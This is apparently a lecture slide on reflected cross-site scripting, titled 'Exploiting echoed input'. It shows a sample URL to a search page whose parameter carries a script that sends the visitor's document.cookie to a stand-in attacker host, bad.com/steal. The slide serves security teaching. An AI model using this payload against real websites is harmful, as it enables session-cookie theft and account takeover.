

# Exploiting echoed input
Input from bad.com:
http://victim.com/search.php?term=
<script> window.open(  “http://bad.com/steal?c=“
+	document.cookie)
</script>